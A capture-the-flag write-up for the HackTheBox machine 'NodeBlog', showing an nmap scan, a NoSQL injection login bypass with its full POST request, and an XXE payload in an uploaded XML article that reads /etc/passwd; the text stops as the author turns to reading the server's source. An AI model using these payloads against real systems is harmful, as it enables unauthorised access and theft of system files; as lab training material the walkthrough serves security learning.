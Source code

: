 ### NodeBlog HackTheBox

### Difficulty = Easy

### IP Address = 10.10.11.139

Nmap Scan:

```
─$ nmap -sCV 10.10.11.139 -p22,5000 -oN nmapscan          
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-25 00:34 WAT
Stats: 0:00:27 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.29% done; ETC: 00:35 (0:00:00 remaining)
Stats: 0:00:27 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.29% done; ETC: 00:35 (0:00:00 remaining)
Stats: 0:00:27 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.29% done; ETC: 00:35 (0:00:00 remaining)
Stats: 0:00:27 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.29% done; ETC: 00:35 (0:00:00 remaining)
Nmap scan report for 10.10.11.139
Host is up (0.33s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
5000/tcp open  http    Node.js (Express middleware)
|_http-title: Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.17 seconds
                                                                
```

From the scan we see that only 2 ports are open which are just ssh and http

#### Web Server Enumeration

Heading over to the web server shows this page
![image](https://user-images.githubusercontent.com/113513376/221321193-b601500e-83b7-4402-8d9d-fd6da0c0de0e.png)

Checking the web server header shows its running on express which is a nodejs web server

```
└─$ curl -v -I http://10.10.11.139:5000/
*   Trying 10.10.11.139:5000...
* Connected to 10.10.11.139 (10.10.11.139) port 5000 (#0)
> HEAD / HTTP/1.1
> Host: 10.10.11.139:5000
> User-Agent: curl/7.87.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
HTTP/1.1 200 OK
< X-Powered-By: Express
X-Powered-By: Express
< Content-Type: text/html; charset=utf-8
Content-Type: text/html; charset=utf-8
< Content-Length: 1891
Content-Length: 1891
< ETag: W/"763-yBLqx1Bg/Trp0SZ2cyMSGFoH5nU"
ETag: W/"763-yBLqx1Bg/Trp0SZ2cyMSGFoH5nU"
< Date: Sat, 25 Feb 2023 03:47:16 GMT
Date: Sat, 25 Feb 2023 03:47:16 GMT
< Connection: keep-alive
Connection: keep-alive
< Keep-Alive: timeout=5
Keep-Alive: timeout=5

< 
* Connection #0 to host 10.10.11.139 left intact
```

There's a login page
![image](https://user-images.githubusercontent.com/113513376/221321469-08a6fa01-f556-4dfd-8c9f-95d1431affc0.png)

Trying weak/default credential doesn't work

Note that how you would have a LAMP stack running Apache and MySQL, NPM aka node package manager could be in use on an Express Server and they usually configure those to run with NOSQL dbs like Redis, Couch, influx or Mongo db

I'll attempt NOSQL Injection 

While messing with the request i was able to throw an error that leaked the path of the web server
![image](https://user-images.githubusercontent.com/113513376/221323416-13489052-c5b0-4a70-b302-121f51433f15.png)

```
<pre>SyntaxError: Unexpected token l in JSON at position 21<br>
  &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br> 
  &nbsp; &nbsp;at parse (/opt/blog/node_modules/body-parser/lib/types/json.js:89:19)<br>
  &nbsp; &nbsp;at /opt/blog/node_modules/body-parser/lib/read.js:121:18<br> 
  &nbsp; &nbsp;at invokeCallback (/opt/blog/node_modules/raw-body/index.js:224:16)<br> 
  &nbsp; &nbsp;at done (/opt/blog/node_modules/raw-body/index.js:213:7)<br> 
  &nbsp; &nbsp;at IncomingMessage.onEnd (/opt/blog/node_modules/raw-body/index.js:273:7)<br>
  &nbsp; &nbsp;at IncomingMessage.emit (events.js:412:35)<br>
  &nbsp; &nbsp;at endReadableNT (internal/streams/readable.js:1334:12)<br> 
  &nbsp; &nbsp;at processTicksAndRejections (internal/process/task_queues.js:82:21)
</pre>
```

Using this payload works:
![image](https://user-images.githubusercontent.com/113513376/221324337-58269775-0870-47f9-aa95-dd4c49658453.png)

```
Payload: {"user": {"$ne": null}, "password": {"$ne": null} }
```

Here's the login post request

```
POST /login HTTP/1.1
Host: 10.10.11.139:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 17
Origin: http://10.10.11.139:5000
Connection: close
Referer: http://10.10.11.139:5000/login
Upgrade-Insecure-Requests: 1

{"user": {"$ne": null}, "password": {"$ne": null} }
```

We are now logged in and we see two functions which are new article and a upload function
![image](https://user-images.githubusercontent.com/113513376/221324613-2e31b728-9cf2-40ad-9ed2-3b8961e7c3ed.png)

Checking the new article shows this 
![image](https://user-images.githubusercontent.com/113513376/221324732-6136868e-e2a6-4c0b-b82a-4d2d42d4d372.png)

I'll try creating an article with intercepting the request in burp

But nothing interesting here 
![image](https://user-images.githubusercontent.com/113513376/221324843-82321a8f-6b4d-4642-8cd9-3d631eee92ae.png)

Time to check the upload function

I uploaded a random file and i got this
![image](https://user-images.githubusercontent.com/113513376/221324899-e81e985a-1f25-4c37-9656-369123354b5f.png)

Hmm it seems it requires an xml file with the article format  

```
 Title Description Markdown
```

I created an xml file with those values needed [Resource](https://www.w3schools.com/xml/)

```
<?xml version="1.0" encoding="UTF-8"?>
<article>
  <title>Learn Pwn</title>
  <description>Lol</description>
  <markdown>`hehe`</markdown>
</article>
```

After i uploaded it i got the content of tags 
![image](https://user-images.githubusercontent.com/113513376/221326190-2ad801f7-c715-4408-8647-8042e65ed198.png)

With this, we can leverage this to read local file via XXE

Since it will show the content of what's in the tag 

Here's the resouce i got the payload [HackTricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ELEMENT title ANY>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<article>
  <title>&file;</title>
  <description>Lol</description>
  <markdown>`hehe`</markdown>
</article>
```

Uploading that leaks the `/etc/passwd` file
![image](https://user-images.githubusercontent.com/113513376/221326390-99f28637-b05f-42f7-ae0d-cded719c698a.png)
![image](https://user-images.githubusercontent.com/113513376/221326415-0f26039c-df4c-4dfb-8ee7-f205e931241a.png)

Since we previously leaked the path of the web server and we know that its a nodejs web server, lets read its source code


